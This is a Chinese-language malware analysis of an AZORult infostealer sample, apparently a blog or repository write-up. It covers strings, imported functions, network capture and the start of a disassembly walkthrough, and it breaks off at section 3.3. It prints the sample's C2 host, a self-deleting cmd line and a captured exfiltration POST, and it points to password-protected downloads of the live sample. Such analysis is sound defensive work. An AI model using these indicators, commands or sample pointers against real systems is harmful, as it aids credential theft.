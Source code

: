 # 一个azorult样本分析

## 0. 前言

根据百度，azorult是一种信息窃取的恶意软件。

该样本来自[ANY.RUN](https://app.any.run/tasks/b9ac50cb-2737-4270-be47-63a8f1b6352e/#)，标签有`trojan`、`rat`、`azorult`，文件名`unommbZo.exe`，md5: `4e1e1e459fef0e525f79f5747fa2f69a`。样本可直接在附件下载`unommbZo.bin.zip`，解压密码为`infected`。

## 1. 基本静态分析

### 1.1 PEiD结果

![image-20200918111338217](.\img\unom-peid.png)

所以程序使用Delphi开发的，里面可能存在base64编码。

### 1.2 包含的字符串

经PEid检测，样本未加壳，使用`strings`工具查看其包含的字符串：

```bash
2C5A87CB-758C-7293-47BC-475C65D699A584C5-7DC6-DC45-12A47C7DB587-F89F-78CD-96CA-FD478543C7F4		# 不知道是什么，看起来很可疑的样子
SOFTWARE\Borland\Delphi\RTL
SOFTWARE\Microsoft\Windows NT\CurrentVersion
SOFTWARE\Microsoft\Cryptography
Software\Martin Prikryl\WinSCP 2\Sessions\		# 注册表？
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/	# base64编码
%APPDATA%\.purple\accounts.xml
%TEMP%\curbuf.dat
https://dotbit.me/a/
http://ip-api.com/json		
kirill0v.beget.tech			# 可疑的网址
/c %WINDIR%\system32\timeout.exe 3 & del "		# 执行的命令
User-agent: 
Mozilla/4.0 (compatible; MSIE 6.0b; Windows NT 5.1)		# 硬编码的请求头
PasswordsList.txt		# 文件名
```

除了上面的这些结果外，字符串输出中还包含一些进行了base64编码的变量名、注册表信息，目前还不知道有什么用。除此之外，还包含带有通配符的文件名，这里不再一一列举。

### 1.3 导入函数信息

```bash
ReleaseDC	GetSystemMetrics	GetDC		# 获取屏幕信息，截图？
GetComputerNameW	GetUserNameW			# 收集系统信息
FindFirstFileW	FindNextFileW	CreateFileW	CopyFileW		# 文件操作
GetTickCount	QueryPerformanceCounter		# 反调试？
Process32FirstW	Process32NextW	CreateProcessW		# 进程操作
RegCreateKeyExW	RegQueryValueExW	RegCloseKey	RegOpenKeyExW	# 注册表操作
CryptAcquireContextA	CryptCreateHash	CryptHashData
CryptGetHashParam	CryptDestroyHash	CryptReleaseContext		# 加密操作
ShellExecuteExW		# 命令执行
wsock32.dll		wininet.dll		# 网络操作
```



除了上面的两项信息之外，从PEView中查看该样本的`IMAGE_OPTIONAL_HEADER`，可以看出样本是一个Windows GUI程序。

## 2. 基本动态分析

一开始我用`ApateDNS`和`Inetsim`搭建了一个虚拟的网络环境，然后用`Wireshark`抓包，火绒剑进行监控，可以发现样本做了一些信息收集和联网操作，但是因为无法从C2服务器上获得进一步信息，所以我对于样本的分析也不完整。最后我为虚拟机设置了一个桥接的网卡，直接连接外网，想看一下样本和服务器的通信情况。

### 2.1 火绒剑输出

下面是有关注册表的一些操作，样本查询了大量的注册表值，这里应该是在收集信息：

![image-20200918193231447](.\img\unom-huorong1.png)

还可以看到`svchost.exe`进程也打开了`unommbZo`进程：

![image-20200918193723288](.\img\unom-huorong2.png)

以及联网操作：

![image-20200918194258739](.\img\unom-huorong3.png)

可以看到样本和`kirill0v.beget.tech/index.php`建立 了连接，接下来看一下联网操作发送了什么内容。

### 2.2 Wireshark抓包

![image-20200918103038801](.\img\unom-wireshark.png)

上图是抓包结果，完整的请求如下：

```
POST /index.php HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0b; Windows NT 5.1)
Host: kirill0v.beget.tech
Content-Length: 91
Cache-Control: no-cache

...E..&f.&f.F..0l.1..0f.0a.0f.&f.F..0c.1..0l.0e.&f.B..&f.&g.E..@..Ap.;p.G..&f.Fp.3p.;p.6p.5
```

明文看不出什么信息，所以可能进行了编码或者加密。

遗憾的是，连接已经关闭了：

![image-20200918194436627](.\img\unom-wireshark2.png)

所以我最终是从ANY.RUN上把C2服务器返回的内容下载了下来，你可以从附件获取该内容`index.php.zip`，解压密码为`infected`。

## 3. 详细分析

### 3.1 主函数

先把服务器的响应放到一边，看一下样本的详细内容。由于这个样本是用Delphi编译的，因此`IDA`的分析效果不是特别好，同时使用`IDR`和`Ollydbg`协助分析。

将样本导入`IDA`后，发现入口点的`start`函数中，在`InitExe`和`Halt0`之间，只调用了一个函数`sub_419108`，这应该就是主函数了，重命名为`main_function`，然后双击进入该函数。

![image-20200918104904807](.\img\unom-ida1.png)

下图显示了`main_function`的前半部分，基本覆盖了从样本开始执行到接收从C2服务器发过来的响应这一部分内容，本文就分析这一段内容。

![image-20200918201306881](.\img\unom-ida2.png)

### 3.2 sub_407D24

第一个样本内函数调用已经进行了重命名，为`load_kernel32`。直接看下一个函数`sub_407D24`，该函数内调用了三次`sub_407B78`，在OD中分析该函数：

![image-20200918203307295](.\img\unom-od1.png)

之后，该函数还调用了`CheckTokenMembership`和`FreeSid`，它在检查用户权限。

除了调用三次`sub_407B78`外，该函数还调用了一次`sub_407C58`，这两个函数的结构类似，只不过后者检查的是系统权限：

![image-20200918204040432](.\img\unom-od2.png)

所以得到了函数`sub_407D24`的完成流程为：

![image-20200918204240225](.\img\unom-ida4.png)

### 3.3 sub_406C4C

